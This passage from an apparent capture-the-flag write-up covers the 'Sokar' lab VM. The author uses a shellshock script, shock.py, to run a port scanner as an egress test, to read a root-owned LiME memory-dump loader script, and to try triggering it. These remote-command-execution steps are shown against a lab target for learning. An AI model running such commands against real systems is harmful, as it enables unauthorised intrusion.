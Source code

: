 Finally, I fired the scanner off using the previously developed `shock.py` script:

```bash
leonjza@kali/sokar $ python shock.py "/usr/bin/python /tmp/port_scan.py"
 * Executing /usr/bin/python /tmp/port_scan.py

```

I waited... a really long time. I know poking at 65535 ports takes quite some time too so off I went to do other things. After quite some time, I returned to Sokar, to find that the `tcpdump` had no responses. I fiddled around with the scripts to check that I did not make a mistake but eventually I had to come to the conclusion that all outbound traffic is being filtered. Drat.

## bynarr the fruit
Not having an interactive shell was not the end of the world. Instead of fussing about that I decided to move on to poking around some more. Enumeration revealed that `/home/bynarr` was readable to me. In there was what looked like a kernel module `lime.ko` and a script called `lime` to `insmod` it. Both were owned by root:

```bash
leonjza@kali/sokar $ python shock.py "/bin/cat /home/bynarr/lime"
 * Executing /bin/cat /home/bynarr/lime

#!/bin/bash
echo """
==========================
Linux Memory Extractorator
==========================
"
echo "LKM, add or remove?"
echo -en "> "

read -e input

if [ $input == "add" ]; then

    /sbin/insmod /home/bynarr/lime.ko "path=/tmp/ram format=raw"

elif [ $input == "remove" ]; then

    /sbin/rmmod lime

else

    echo "Invalid input, burn in the fires of Netu!"

fi

```

I knew that the chances were slim that it would allow me to run `insmod` as `apache`, but ofc I tried running the script regardless. Due to the fact that the file called `/tmp/ram` was not created after running `python shock.py "echo \"add\" | /home/bynarr/lime"`, I assumed it failed.

